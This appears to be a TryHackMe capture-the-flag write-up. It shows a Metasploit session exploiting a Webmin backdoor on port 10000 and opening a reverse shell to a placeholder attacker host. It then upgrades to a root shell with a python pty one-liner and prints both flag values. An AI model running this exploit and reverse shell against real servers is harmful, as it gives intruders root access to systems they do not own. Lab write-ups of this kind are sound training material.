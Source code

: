 ```bash
msf6 exploit(linux/http/webmin_backdoor) > set RPORT 10000
RPORT => 10000
msf5 exploit(linux/http/webmin_backdoor) > run
[*] Started reverse TCP handler on AttackIP:AttackPort 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (AttackIP:AttackPort -> TargetIP:TargetPort) at 2025-04-07 ...

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/share/webmin
python -c "import pty;pty.spawn('/bin/bash')"
root@source:/usr/share/webmin/#

...


root@source:/home/dark# cat user.txt
cat user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
root@source:/home/dark# 

...
root@source:~# ls -la
ls -la
total 36
drwx------  5 root root 4096 Jun 26  2020 .
drwxr-xr-x 24 root root 4096 Jun 26  2020 ..
-rw-------  1 root root   44 Jun 26  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jun 26  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 26  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jun 26  2020 .ssh
-rw-r--r--  1 root root   25 Jun 26  2020 root.txt
root@source:~# cat root.txt
cat root.txt
THM{UPDATE_YOUR_INSTALL}
root@source:~# 


```


<br>
<br>

<h1 align="center"> $$\textcolor{#3bd62d}{\textnormal{Room Completed}}$$
<br><img width="900px" src="https://github.com/user-attachments/assets/d1fcd1ae-ea57-41d7-8664-a5c7fb7ec8bf">
<br><img width="900px" src="https://github.com/user-attachments/assets/46435ef8-7db8-4a44-9d8b-45fa1ac7de2d"></h1>
